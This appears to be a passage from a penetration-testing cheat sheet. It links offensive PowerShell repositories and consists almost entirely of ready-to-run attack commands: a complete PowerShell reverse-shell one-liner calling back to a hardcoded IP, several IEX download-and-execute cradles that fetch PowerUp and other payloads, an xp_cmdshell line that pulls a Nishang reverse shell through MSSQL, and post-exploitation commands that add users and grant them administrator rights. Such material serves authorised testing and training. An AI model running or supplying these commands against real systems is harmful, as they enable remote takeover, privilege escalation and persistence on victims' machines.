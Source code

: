 -   https://github.com/samratashok/nishang
-   https://github.com/rasta-mouse/Sherlock
-   Reverse Powershell: (sometimes powershell or echo may need to be infront of the string and sometimes quotes may be needed, e.g. powershell IEX or powershell "IEX..etc" or echo IEX).

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.1.3.40',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

-   If one has a Command Prompt shell, this will grab PowerUp from a local web server and run it on the compromised shell:

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:80/PowerUp.ps1') | powershell -noprofile -
```

```
IEX(New-object Net.WebClient).DownloadString('http://10.10.10.10:80/PowerUp.ps1')

```

```
powershell -nop -exec bypass IEX "(New-Object Net.WebClient).DownloadString('http://10.10.14.x/Whatever.ps1'); Invoke-Whatever"
```

-   Reverse Powershell using mssql:

```
xp_cmdshell powershell IEX(New-Object Net.WebClient).downloadstring(\"http://10.10.10.10/Nishang-ReverseShell.ps1\")
```

-   File transfer with PowerShell:

```
powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://server/path/to/file', 'nameforefile')`
```

## Windows Post Exploitation Commands

-   WMIC USERACCOUNT LIST BRIEF
-   net user
-   net localgroup Users
-   net localgroup Administrators
-   net user USERNAME NEWPASS /add
-   net user "USER NAME" NEWPASS /add
-   net localgroup administrators USERNAME /add

Writeable Directories
